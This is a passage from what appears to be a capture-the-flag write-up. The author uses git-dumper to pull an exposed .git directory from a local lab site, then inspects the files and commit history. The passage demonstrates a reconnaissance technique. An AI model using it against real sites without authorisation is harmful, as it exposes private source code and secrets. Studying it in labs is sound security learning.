 It looks like the site developers have deployed their git repository with the site. I had used a tool to extract that in the past. So I looked around and found [git-dumper](https://github.com/arthaud/git-dumper). 

```bash
$ git-dumper http://localhost:8082/.git/ temp                                                            
[-] Testing http://localhost:8082/.git/HEAD [200]                                                                    
[-] Testing http://localhost:8082/.git/ [403]                                                                        
[-] Fetching common files                                
[-] Fetching http://localhost:8082/.gitignore [404]                                                                  
[-] http://localhost:8082/.gitignore responded with status code 404
[-] Fetching http://localhost:8082/.git/COMMIT_EDITMSG [200]
[-] Fetching http://localhost:8082/.git/description [200]
[-] Fetching http://localhost:8082/.git/hooks/post-commit.sample [404]                         
[-] http://localhost:8082/.git/hooks/post-commit.sample responded with status code 404         
...
[-] Fetching http://localhost:8082/.git/objects/fa/efc0407d461914a05d2abf2cfae62230ea761a [200]
[-] Fetching http://localhost:8082/.git/objects/1e/4988fd28fdfb4116f7203451e6cf1b6c51ea43 [200]
[-] Running git checkout .

$ cd temp/

$ ls -la
total 16
drwxr-xr-x  3 ehogue ehogue 4096 Dec  4 13:57 .
drwxr-xr-x 44 ehogue ehogue 4096 Dec  4 13:57 ..
drwxr-xr-x  7 ehogue ehogue 4096 Dec  4 13:57 .git
-rw-r--r--  1 ehogue ehogue   27 Dec  4 13:57 index.html

$ git status
On branch master
nothing to commit, working tree clean

$ cat index.html 
Website under development
```

I had the git repository, but the master branch had only the index file. I then looked at the history.

```bash
$ git log
commit 687168d567086a87eccd0621eec3f90e331ee5a7 (HEAD -> master)
Author: developer <developer@127.0.0.1>
Date:   Tue Nov 16 16:55:27 2021 +0000

    More enthusiasm

commit b429a1087c6723fa1aff5a36e6c5055e775cb923
Author: developer <developer@127.0.0.1>
Date:   Tue Nov 16 16:55:27 2021 +0000

    Cleanup

commit 61fffcea82d8ed62623d34d956d69602e93d8747
Author: developer <developer@127.0.0.1>
Date:   Tue Nov 16 16:55:27 2021 +0000

    Initial commit
```
